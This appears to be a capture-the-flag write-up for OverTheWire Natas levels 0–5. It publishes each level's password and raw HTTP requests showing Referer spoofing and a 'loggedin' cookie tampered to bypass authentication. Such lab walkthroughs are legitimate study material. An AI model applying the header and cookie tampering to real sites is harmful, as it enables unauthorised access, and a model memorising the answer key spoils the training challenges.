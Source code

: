 # Natas game modules 0-5

#### 1. **Natas0 \[natas0:natas0\]**

     URL:[http://natas0.natas.labs.overthewire.org/](http://natas1.natas.labs.overthewire.org/)

Navigate to URL using the credentials renders a web page. Looking at the page source show the following code which contains password for Natas1.

`<html>
`

`<head>
`

`<!-- This stuff in the header has nothing to do with the level -->
`

`<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
`

`<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
`

`<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
`

`<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
`

`<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
`

`<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
`

`<script>var wechallinfo = { "level": "natas0", "pass": "natas0" };</script></head>
`

`<body>
`

`<h1>natas0</h1>
`

`<div id="content">
`

`You can find the password for the next level on this page.
`

`
`

**`<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
`**

`</div>
`

`</body>
`

`</html>`

---

#### 2. Natas1 \[natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto\]

URL:[http://natas1.natas.labs.overthewire.org/](http://natas1.natas.labs.overthewire.org/)

Navigating the URL show the page as below:

![](/assets/natas1.png)

But we can see the page source from proxy tool like Burp Suite which shows the password for Natas2 as below:

`<h1>natas1</h1>`

`<div id="content">`

`You can find the password for the`

`next level on this page, but rightclicking has been blocked!`

`<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->`

`</div>`

`</body>`

`</html>`

---

#### 3. Natas2 \[natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi\]

URL:[http://natas2.natas.labs.overthewire.org/](http://natas2.natas.labs.overthewire.org/)

![](/assets/natas2.png)

The page source shows the directory named as 'files'. Navigating the files folder shows the file with name 'users.txt'. Clicking on the users file reveals the password for Natas3.

http://natas2.natas.labs.overthewire.org/files/users.txt

`# username:password 
`

`alice:BYNdCesZqW 
`

`bob:jw2ueICLvT 
`

`charlie:G5vCxkVV3m 
`

**`natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14`**` 
`

`eve:zo4mJWyNj2 
`

`mallory:9urtcpzBmH `

---

#### 4. Natas3 \[natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14\]

URL: http://natas3.natas.labs.overthewire.org/


Navigating to URL show the page source as below. 

&lt;h1&gt;natas3&lt;/h1&gt;

&lt;div id="content"&gt;

There is nothing on this page

&lt;!-- No more information leaks!! Not even Google will find it this time... --&gt;

&lt;/div&gt;

&lt;/body&gt;&lt;/html&gt;

Based on the hint 'Not even Google will find it this time', searched for natas3 in google reveals the folder 's3cr3t' as below:

![](/assets/natas3.png)



Navigating to new folder shows the file 'users.txt' which inturn reveals the password for natas4 as below: http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

**`natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`**

---

#### 5. Natas4 \[natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ\]

URL: [http://natas4.natas.labs.overthewire.org/](http://natas4.natas.labs.overthewire.org/)

Navigating to URL shows the web page as below:

![](/assets/natas4.png)

Based on the hint shown on the page 'while authorized users should come only from "[http://natas4.natas.labs.overthewire.org/](http://natas4.natas.labs.overthewire.org/)"',  added referer header through Burp Suite proxy as below:

`GET / HTTP/1.1
`

`Host: natas4.natas.labs.overthewire.org
`

`User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
`

`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
`

`Accept-Language: en-US,en;q=0.5
`

`Cookie: __cfduid=d7ce1c5bbe6df2931caac6d36bf060f851513884420; __utma=176859643.1738819372.1513884442.1513884442.1513884442.1; __utmb=176859643.3.10.1513884442; __utmc=176859643; __utmz=176859643.1513884442.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)
`

**`Referrer: http://natas5.natas.labs.overthewire.org/
`**

`Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
`

`Connection: close
`

`Upgrade-Insecure-Requests: 1
`

`Cache-Control: max-age=0`

Then web page shows the password for natas5 as below:

![](/assets/natas4-1.png)



---

#### 6. Natas5 \[natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq\]

URL: [http://natas5.natas.labs.overthewire.org/](http://natas5.natas.labs.overthewire.org/)

Navigating to URL shows the page as below.

![](/assets/natas5.png)

Based on the message shown on the web page, looking at response headers shows that a cookie 'loggedin' is set to value 0. Refresh the page and change the value of cookie value as 'loggedin=1' shows the page with password for natas6.

`GET / HTTP/1.1`

`Host: natas5.natas.labs.overthewire.org`

`User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0`

`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8`

`Accept-Language: en-US,en;q=0.5`

`Cookie: __cfduid=d7ce1c5bbe6df2931caac6d36bf060f851513884420; __utma=176859643.1738819372.1513884442.1513884442.1513884442.1; __utmc=176859643; __utmz=176859643.1513884442.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); loggedin=1`

`Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx`

`Connection: close`

`Upgrade-Insecure-Requests: 1`

`Cache-Control: max-age=0`



![](/assets/natas5-1.png)

`natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

